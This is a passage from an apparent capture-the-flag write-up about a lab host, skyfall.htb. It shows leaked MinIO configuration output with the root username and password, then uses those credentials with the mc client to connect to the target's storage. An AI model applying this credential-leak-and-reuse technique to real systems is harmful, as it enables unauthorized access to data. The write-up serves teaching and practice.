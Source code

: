 ```
          "IsLocal": false
        },
        {
          "Scheme": "http",
          "Opaque": "",
          "User": null,
          "Host": "minio-node2:9000",
          "Path": "/data2",
          "RawPath": "",
          "OmitHost": false,
          "ForceQuery": false,
          "RawQuery": "",
          "Fragment": "",
          "RawFragment": "",
          "IsLocal": true
        }
      ],
      "CmdLine": "http://minio-node{1...2}/data{1...2}",
      "Platform": "OS: linux | Arch: amd64"
    }
  ],
  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_BROWSER": "off",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_PROMETHEUS_AUTH_TYPE": "public",
    "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key",
    "MINIO_UPDATE": "off",
    "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
  }
}

```

The important part is the root user is 5GrE1B2YGGyZzNHZaIww and the root password is “GkpjkmiVmpFuL2d3oRx0”. I’ll also note that `MINIO_BROWSER=off`, which blocks the next exploit.

#### Setup MinIO Client

There’s a MinIO client, `mc`, to interact with a given MinIO instance. I’ll download it using the instructions [here](https://min.io/docs/minio/linux/reference/minio-mc.html). Next I create an alias with the keys necessary to connect:

```

oxdf@hacky$ mc alias set skyfall http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
Added `skyfall` successfully.

```
